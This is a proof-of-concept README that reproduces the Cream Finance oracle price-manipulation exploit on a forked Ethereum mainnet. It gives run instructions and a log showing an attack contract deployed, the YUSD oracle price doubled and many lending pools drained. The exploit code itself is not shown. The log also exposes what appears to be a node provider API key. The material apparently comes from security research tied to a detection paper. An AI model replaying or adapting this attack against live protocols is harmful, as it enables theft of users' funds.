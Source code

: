 # CREAM_ORACLE PoC

> Block: #13499798

## How to run

Install brownie first

Set up the environment variable for $ARCHIVENODE_TOKEN


```
export $ARCHIVENODE_TOKEN = xxxxx
sh start_archive.sh

then 

sh run.sh
```

- Result:

```bash
Brownie v1.16.2 - Python development framework for Ethereum

CreamProject is the active project.

Launching 'ganache-cli --port 8849 --gasLimit 880000000000 --accounts 10 --hardfork istanbul --mnemonic brownie --fork https://speedy-nodes-nyc.moralis.io/20189123bd8fd22f2ac08e16/eth/mainnet/archive/@13499797 --defaultBalanceEther 10000000000000 --chainId 1'...

Running 'scripts/gbu.py::main'...

Deploying attack contract...
Transaction sent: 0x9af371e792238e1c68882b9057296d5a3c28e48a1df8163f05b1f878072d3ce0
  Gas price: 0.0 gwei   Gas limit: 880000000000   Nonce: 2
  Luck.constructor confirmed   Block: 13499799   Gas used: 3180843 (0.00%)
  Luck deployed at: 0xE7eD6747FaC5360f88a2EFC03E00d25789F69291

> Before The YUSD's price in cream.finance oracle: 279300989383783

Launch attack...
Transaction sent: 0x3a1265b942688707f81cbd3adf420db3b81ae8fff0768696c9f84bcc4f367b45
  Gas price: 0.0 gwei   Gas limit: 880000000000   Nonce: 3
  Luck.luck confirmed   Block: 13499800   Gas used: 28578950 (0.00%)

> After The YUSD's price in cream.finance oracle: 558660521726027


🧛 The profit list:
ETH profits:  1966.078292523257
Ypool_LP profits:  166385.4648287775
attack contract1 Luck's liquidity in cream.finance: liquidity = 25266095875700508730941, shortfall = 0
attack contract2 LuckPartner's liquidity in cream.finance: liquidity = 0, shortfall = 368876768432684334164260
CrETH cash: 0, CrETH profits: 0
The cash of crCRETH2 in cream.finance is 0.
crCRETH2 balance: 0, CRETH2 balance: 12266463816009145730493
The cash of crXSUSHI in cream.finance is 0.
crXSUSHI balance: 0, xSUSHI balance: 623760529988486822779519
The cash of crWNXM in cream.finance is 0.
crWNXM balance: 0, wNXM balance: 135402944541301517084130
The cash of crPERP in cream.finance is 0.
crPERP balance: 0, PERP balance: 447222593590652214743874
The cash of crRUNE in cream.finance is 0.
crRUNE balance: 0, RUNE balance: 418917294792442850457949
The cash of crDPI in cream.finance is 0.
crDPI balance: 0, DPI balance: 15567575750097560251951
The cash of crUNI in cream.finance is 0.
crUNI balance: 0, UNI balance: 156629158238930877722356
The cash of crUSDC in cream.finance is 0.
crUSDC balance: 0, USDC balance: 4324457152800
The cash of crFEI in cream.finance is 0.
crFEI balance: 0, FEI balance: 3817374503105485458327683
The cash of crUSDT in cream.finance is 0.
crUSDT balance: 0, USDT balance: 3780808755759
The cash of crYVCurve-stETH in cream.finance is 0.
crYVCurve-stETH balance: 0, yvCurve-stETH balance: 747480864886637652351
The cash of crGNO in cream.finance is 0.
crGNO balance: 0, GNO balance: 6937023757101307138911
The cash of crFTT in cream.finance is 0.
crFTT balance: 0, FTX Token balance: 38922154159018669294167
The cash of crYGG in cream.finance is 0.
crYGG balance: 0, YGG balance: 341681583099484551498506
The cash of crYUSD in cream.finance is 0.
crYUSD balance: 6701346099885525301, yUSD balance: 0
```

> NOTE: We can see the price of yusd in cream.finance is doubled after this expolit. 
> 
> It likes some kind of price manipulation (direct one) that was described in our paper: DeFiRanger: Detecting Price Manipulation Attacks on DeFi Applications https://arxiv.org/abs/2104.15068).

## link 

- https://twitter.com/BlockSecTeam/status/1453393444047441923

## More About:
- https://blocksecteam.com
